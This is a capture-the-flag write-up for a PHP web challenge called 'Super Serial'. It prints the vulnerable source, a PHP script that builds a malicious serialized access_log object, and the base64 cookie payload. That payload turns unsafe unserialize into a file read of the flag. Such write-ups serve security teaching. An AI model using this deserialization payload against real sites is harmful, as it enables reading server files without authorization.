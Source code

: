 ```yaml
---
title: PHP Deserialization Injection
date: 2021-12-24 20:00:00 
layout: post
categories: CTF
tags: [CTF]
toc: true
---
```


# PHP Deserialization Injection
* Name: Super Serial
* Category: Web 
* Technique: `PHP Deserialization Injection`
* Hint: `The flag is at ../flag`
## Solution 
* Overview the challenge have a login form 
![image](https://user-images.githubusercontent.com/79050415/152352808-604d5a55-b4bd-453d-bc81-b58ade06ee9d.png)
* Initial reconnaissance
* The first i look at login form i think its `sql injection` but i used some payloads its response error, but name of the challenges `Super Serial` i gessing its `Deserialization`
* All challenges i solved always have attachment source code but this challenge must fuzzing found source code, i used `dirsearch` for fuzzing 
![image](https://user-images.githubusercontent.com/79050415/152356327-9c58ddd6-e844-4864-bf66-68569fd4f974.png)
* I found other pages 

```php
index.php
cookie.php
authentication.php
index.php
cookie.php
authentication.php
```
* I cant access this page i must add `s` because i access `robots.txt` its hint for me
![image](https://user-images.githubusercontent.com/79050415/152357593-2e3414d5-bff9-47a7-847a-8728722ee51e.png)
* After i access other pages i found a source code 
## Source Code Analysis
* `index.phps`

```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
* `user` and `pass` used `POST` method 
* username and password assign variable `$perm_res` for authenticate
* if `$perm_res->is_guest()` and `$perm_res->is_admin()` are true `cookie` will create header `Location` set value equal `authentication.php` then its direct from login page to `welcome` page 
* `setcookie` `login` its created by serialize `$perm_res` variable then ` base64` and `urlencode` 
* `cookie.phps`

```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
 ```
 
 * The function `is_admin()` and ` is_guest()` are same check attribute username and password of `permission` class by query to database `users.db` because 2 function used `prepared statements` and `parameterized queries` so exploit sql injection is impossiable 
 * `IF` block code check cookie of `login` if serialize true its response flag and false its response message `Deserialization error`
 * `authentication.phps`
 
 ```php
 <?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
* Class `access_log` have 2 magic methods `__construct` and `__toString`. Method `__toString` response `read_log()`, `read_log()` will response content of file and transmisson ` constructor` of `access_log` class via ` file_get_contents` + Magic method wil execute when class create, therefore i created an object `access_log` 

```php
<?php

class access_log {
	public $log_file;
}

$object = new access_log;

$object->log_file = "../flag";

$serializedObject = serialize($object);

echo $serializedObject;

?>
```

* The script when i run 
![image](https://user-images.githubusercontent.com/79050415/152373825-40d495e7-8d98-40c5-a1a0-1a4ce1041f1d.png)

```php
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
* After that i encode payload above to base64 

```php
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
![image](https://user-images.githubusercontent.com/79050415/152377105-484a584a-6414-42f5-acf9-fa829d09ff4d.png)
* I change `name` and `value` of `cookies` 
![image](https://user-images.githubusercontent.com/79050415/152379335-6ab4f2d9-59d2-433a-8c70-c5fa95a4fc37.png)
* Finally i found a flag =)))
![image](https://user-images.githubusercontent.com/79050415/152379613-bd3c0580-6527-4f4c-96d0-b8da7a9a7d34.png)
 * FLAG `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`




